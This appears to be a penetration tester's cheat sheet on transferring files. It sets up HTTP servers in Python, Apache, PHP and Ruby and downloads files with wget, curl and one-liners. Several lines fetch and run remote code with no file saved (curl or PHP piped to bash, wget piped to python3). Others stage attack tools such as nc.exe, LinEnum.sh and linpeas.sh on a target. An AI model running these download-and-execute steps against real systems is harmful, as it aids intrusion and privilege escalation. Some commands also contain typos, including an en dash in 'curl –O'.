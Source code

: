 ### **SETTING UP AN HTTP SERVER AND DOWNLOADING A FILE USING PYTHON 2**

1.  Start a http server:  
    `python -m SimpleHTTPServer 8000`
2.  Download file using python:  
    `python2 -c 'import urllib;urllib.urlretrieve ("http://[IP-ADRESS]:8000/file.txt", "file.txt")'`
3.  Download file using wget:  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **SETTING UP AN HTTP SERVER AND DOWNLOADING A FILE USING PYTHON 3**

1.  Start a http server:  
    `python3 -m http.server 8000`
2.  Download file using python:  
    `python3 -c 'import urllib.request;urllib.request.urlretrieve("http://[IP-ADRESS:8000]/file.txt", "file.txt")'`
3.  Download file using wget  
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **SETTING UP AN APACHE SERVER AND DOWNLOADING A FILE**

1.  Put files into the apache web directory:  
    `cp nc.exe /var/www/html`
2.  Start the apache server  
    `sudo systemctl start apache2`
3.  Download file using wget   
    `wget http://[IP-ADRESS]:8000/file.txt`
4.  Download file using curl   
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PHP**

1.  Start a http server:    
    `php -S 0.0.0.0:8000`
2.  Download a file using file_get_contents and file_put_contents:   
    `php -r '$file = file_get_contents("http://[IP-ADRESS]:8000/file.txt"); file_put_contents("file.txt",$file);'`
3.  Download a file using fopen:   
    `php -r 'const BUFFER = 1024; $fremote = fopen("http://[IP-ADRESS]:8000/file.txt", "rb"); $flocal = fopen("file.txt", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
4.  Download and pipe to bash:    
    `php -r '$lines = @file("http://[IP-ADRESS]:8000/file.txt"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`
5.  Download file using wget :
    
    `wget http://[IP-ADRESS]:8000/file.txt`
6.  Download file using curl :  
    `curl –O https://[IP-ADRESS]:8000/file.txt`

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING RUBY**

1.  Start an HTTP server:  
    `ruby -run -e httpd . -p 8000`
2.  Download file using Ruby:  
    `ruby -e 'require "net/http"; File.write("file.txt", Net::HTTP.get(URI.parse("http://[IP-ADDRESS]:8000")))'`
3.  Download file using wget:  
    `wget http://[IP-ADDRESS]:8000/file.txt`
4.  Download file using curl:  
    `curl -O https://[IP-ADDRESS]:8000/file.txt`


### **FILELESS DOWNLOADS**

1.  Curl to bash: Download and execute script without saving.  
    `curl http://[IP-ADDRESS]:8000/script.sh | bash`
2.  Wget to Python: Download Python script and execute without saving.  
    `wget -qO- http://[IP-ADDRESS]:8000/script.py | python3`
3.  Download file using Perl:  
    `perl -e 'use LWP::Simple; getstore("http://[IP-ADDRESS]:8000/file.txt", "file.txt");'`

### **BASH (/DEV/TCP) DOWNLOADS**

1.  Connect to the target webserver:  
    `exec 3<>/dev/tcp/[IP-ADDRESS]/80`
2.  Send HTTP GET request:  
    `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3.  Print the response:  
    `cat <&3`


### **BASE64 ENCODING AND DECODING**

1.  Encode file to Base64:  
    `cat file | base64 -w 0; echo`
2.  Decode Base64 to file:  
    `echo -n 'BASE64-STRING' | base64 -d > output_file`


### **SSH AND SCP OPERATIONS**

1.  `scp -P 6498 linpeas.sh [USERNAME]@[IP-ADRESS]:/tmp`